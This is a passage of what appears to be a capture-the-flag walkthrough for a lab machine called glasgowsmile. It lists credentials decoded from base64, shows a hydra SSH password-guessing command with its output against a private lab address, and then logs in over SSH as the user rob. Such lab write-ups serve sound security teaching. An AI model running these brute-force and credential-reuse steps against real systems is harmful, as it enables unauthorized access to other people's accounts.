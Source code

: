 ```bash
```
Decoding each of these base64 chunks, they give the following creds:
- `Bane:baneishere`
- `Aaron:aaronishere`
- `Carnage:carnageishere`
- `buster:busterishereff`
- `rob:???AllIHaveAreNegativeThoughts???`
- `aunt:auntis the fuck here`

### 7. Attack SSH
With these passwords and the users from /etc/passwd, launch a password guess attack on SSH. Supply a users.txt file with each of the above users in it, and all the passwords in a seperate passwords.txt file to try all combinations in case there is reuse anywhere.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ hydra -L users.txt -P passwords.txt -e nsr -s 22 ssh://192.168.34.152 -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-16 23:04:02
[DATA] max 4 tasks per 1 server, overall 4 tasks, 36 login tries (l:4/p:9), ~9 tries per task
[DATA] attacking ssh://192.168.34.152:22/
[22][ssh] host: 192.168.34.152   login: rob   password: ???AllIHaveAreNegativeThoughts???
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-16 23:04:27
```
The credentials `rob:???AllIHaveAreNegativeThoughts???` are valid for SSH.

### 8. Switch to rob
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ssh rob@192.168.34.152         
The authenticity of host '192.168.34.152 (192.168.34.152)' can't be established.
ECDSA key fingerprint is SHA256:05TCY2Nw37yPYIluFAe7y4vTCupftlAxY+jXZsTJu88.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.34.152' (ECDSA) to the list of known hosts.
rob@192.168.34.152's password: 
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 16 13:24:25 2020 from 192.168.10.172
rob@glasgowsmile:~$ id
uid=1000(rob) gid=1000(rob) groups=1000(rob),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
